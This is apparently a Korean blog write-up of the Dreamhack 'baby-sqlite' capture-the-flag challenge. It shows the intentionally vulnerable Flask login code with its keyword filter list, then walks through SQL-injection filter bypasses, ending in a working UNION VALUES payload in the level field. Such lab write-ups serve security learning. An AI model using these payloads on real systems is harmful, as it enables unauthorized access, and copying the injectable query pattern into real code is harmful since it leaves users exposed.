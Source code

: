 ```yaml
---
layout: single
title: "[Dreamhack] baby-sqlite write-up"
date: 2024-01-11 17:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] baby-sqlite

### 😊 문제 설명

- 로그인 서비스입니다.
- SQL INJECTION 취약점을 통해 플래그를 획득하세요!

<br>

### ✏️ 풀이

문제 사이트에 접속해보면 아래와 같은 로그인 폼이 존재하는 것을 볼 수 있다.

<img src="/images/2025-01-11-baby-sqlite/{778B5FD1-E3CA-44A7-996A-6E34FB41AE31}.png" alt="{778B5FD1-E3CA-44A7-996A-6E34FB41AE31}" style="zoom:50%;" />

<img src="/images/2025-01-11-baby-sqlite/{376A12FB-84A5-4CF5-80A6-8211CB863F0B}.png" alt="{376A12FB-84A5-4CF5-80A6-8211CB863F0B}" style="zoom: 50%;" />

<br>

#### 소스코드

```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
    top = _app_ctx_stack.top
    if not hasattr(top, 'sqlite_db'):
        top.sqlite_db = sqlite3.connect(DATABASE)
    return top.sqlite_db


try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'

    
    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
    top = _app_ctx_stack.top
    if hasattr(top, 'sqlite_db'):
        top.sqlite_db.close()


if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)

```

<br>

로그인 경로의 소스 코드를 보면 `uid`, `upw`, `level`이라는 값을 소문자로 전부 변환하고, level은 값이 없다면 9로 설정해주고 있다. `sqli_filter` 에 걸리면 No Hack! 문자열을 return하고 이 값들은 `SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};` 이 쿼리에 들어가서 uid가 admin이면 FLAG를 반환한다고 되어있다. 

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'

    
    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'
```

<br>

보면 아래 메인 코드에서 dream, cometrue, 9로 uid, upw, level을 INSERT한 것을 볼 수 있다.

```python
if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)
```

<br>

먼저 burp로 해당 로그인 패킷을 잡아주고, FLAG의 조건은 `uid`가 admin이어야 하면서 아래의 filter를 우회해야 한다.

```python
sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
```

![{63233C88-0743-408E-A87C-CFA49853F3AA}](/images/2025-01-11-baby-sqlite/{63233C88-0743-408E-A87C-CFA49853F3AA}.png)

<br>
일단 처음에 시도해볼 건 admin이라는 키워드와 공백이 필터링되고 있고, 싱글쿼터는 필터링되지 않고있기 때문에 admin을 like 같은 걸 사용하면 되지 않을까??

<br>

아래처럼 만들었고, 이제 공백을 우회해야 한다. 

```sql
SELECT uid FROM users WHERE uid='' or uid like 'admi%'-- and upw='{upw}' and level={level};
```

<br>
공백은 /**/ 주석으로 한 번 시도해보자.

```sql
SELECT uid FROM users WHERE uid=''/**/or/**/uid/**/like/**/'admi%'-- and upw='{upw}' and level={level};
```

<br>

그럼 최종적으로 uid에 아래와 같은 값을 넣어 테스트해보니 싱글쿼터가 필터링되고 있는 걸 잘못봤다..

```text
'/**/or/**/uid/**/like/**/'admi%'--
```

![**{5D323203-2539-4374-8DBD-DA1E1E05C5E1}**](/images/2025-01-11-baby-sqlite/{5D323203-2539-4374-8DBD-DA1E1E05C5E1}.png)

<br>

그럼 싱글쿼터와 더블쿼터 둘 다 필터링이 되고 있고, 이를 우회하기 위해선 `\` 문자를 사용해서 uid 뒤에있는 싱글쿼터를 문자 형태로 만들어주면 `' and upw=` 까지가 uid 조건으로 들어가서 뒤에 있는 upw 값에 sqli를 넣어볼 수 있다.

```sql
SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};
```

```sql
SELECT uid FROM users WHERE uid='\' and upw='    {upw}' and level={level};
```

<br>

그래서 아래처럼 만들어서 공백은 주석으로, admin 을 16진수 숫자로 바꿔서 테스트해봤는데 안된다.

```sql
SELECT uid FROM users WHERE uid='\' and upw='/**/or/**/uid/**/=/**/0x61646d696e#
```

![{807912D6-BCFC-4526-A8BE-978AEFA77B95}](/images/2025-01-11-baby-sqlite/{807912D6-BCFC-4526-A8BE-978AEFA77B95}.png)

<br>

다른 방법으로 union을 사용해보면 먼저 select가 필터링되어 있기 때문에 values를 사용할 수 있다. 따라서 admin을 16진수로 바꿔 `char`과 `||` 를 사용해서 level에 넣어주면 flag를 확인할 수 있다. 

```sql
9/**/union/**/values(char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e))
```

![{410D9FD2-BD87-46A4-9ADF-21221D8EC341}](/images/2025-01-11-baby-sqlite/{410D9FD2-BD87-46A4-9ADF-21221D8EC341}.png)

<br>